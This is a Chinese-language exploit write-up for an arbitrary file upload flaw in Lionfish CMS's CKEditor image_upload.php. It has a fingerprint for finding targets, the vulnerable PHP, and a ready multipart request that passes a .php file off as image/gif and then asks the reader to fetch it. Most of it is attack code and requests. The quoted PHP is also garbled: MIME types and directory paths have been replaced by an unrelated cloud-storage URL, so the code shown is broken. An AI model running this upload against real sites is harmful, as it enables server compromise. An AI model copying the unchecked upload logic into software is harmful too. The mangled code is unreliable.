

# 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞文件为 CK编辑器的 image_upload.php


```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```


其中使用 image/gif 即可绕过上传PHP文件


```plain
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: image/gif

<?php phpinfo();?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```





访问返回的文件路径


```plain
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```


